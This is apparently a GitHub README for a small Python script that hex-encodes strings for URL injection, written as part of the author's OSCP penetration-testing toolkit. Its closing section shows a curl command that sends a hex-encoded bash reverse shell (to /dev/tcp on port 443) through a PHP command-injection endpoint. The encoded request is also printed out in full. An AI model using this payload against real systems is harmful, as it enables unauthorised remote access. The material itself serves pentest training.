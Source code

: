 ### ascii2hex
Simple python code for convert ASCII string to HEX string

### how to run
That python code allow to convert ASCII string to hex in 2 type format, "%" or "\x", or other ones you need.
You can select the format by using -p flag and specefie the pattern, the default it "%".

### example
```
└─$ python3 ./ascii2hex.py -s '<? phpinfo() ?>'

%3c%3f%20%70%68%70%69%6e%66%6f%28%29%20%3f%3e
```
```
└─$ python3 ./ascii2hex.py -s '<? phpinfo() ?>' -p \\x

\x3c\x3f\x20\x70\x68\x70\x69\x6e\x66\x6f\x28\x29\x20\x3f\x3e
```
### about tool note
this is part from my OSCP tools, the idea it so have the ability to run reverse shell from injection point over php file, since the url can't using space value we must convert each space to hex value, so that tool do that for us.
this tool is vulable since if we can inject code to some url and we need to insert more complicated request to the injection point (paramether) we can use ascii2hex:
```
curl "http://192.168.183.91/cmd.php?cmd=$(ascii2hex "/bin/bash -c 'bash -i >& /dev/tcp/10.0.0.1/443 0>&1'")"                                        
```
in that case the request will be as follow:
```
curl "http://192.168.183.91/cmd.php?cmd=%2f%62%69%6e%2f%62%61%73%68%20%2d%63%20%27%62%61%73%68%20%2d%69%20%3e%26%20%2f%64%65%76%2f%74%63%70%2f%31%30%2e%30%2e%30%2e%31%2f%34%34%33%20%30%3e%26%31%27"
```
